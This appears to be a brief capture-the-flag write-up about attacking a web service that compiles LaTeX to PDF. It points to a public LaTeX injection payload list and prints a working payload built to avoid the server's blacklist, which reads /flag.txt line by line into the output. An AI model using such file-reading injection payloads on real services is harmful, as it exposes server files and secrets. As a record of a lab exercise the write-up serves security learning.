




We are given a web service for LaTeX compiler,



If we try to input random thing, the server will compile our input become LaTeX text in PDF


Here I just heard about exploitation in latex, so I searched for a long time on Google and i found this \
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

and i tried many payload, but the server seems banned some,





then i tried to find some again payload that didn't use blacklisted char 

after a long time with many reference payload, i created this payload 
```latex
\newread\myFile
\openin\myFile=/flag.txt
\def\readnextline{
  \ifeof\myFile\else
    \read\myFile to \fileLine
    \detokenize\expandafter{\fileLine}\par
    \readnextline
  \fi
}
\readnextline
\closein\myFile
```
this payload didnt use any blacklisted term,



very readable flag, then i tried construct it with my most logical brain (this is takes 15 minutes) 
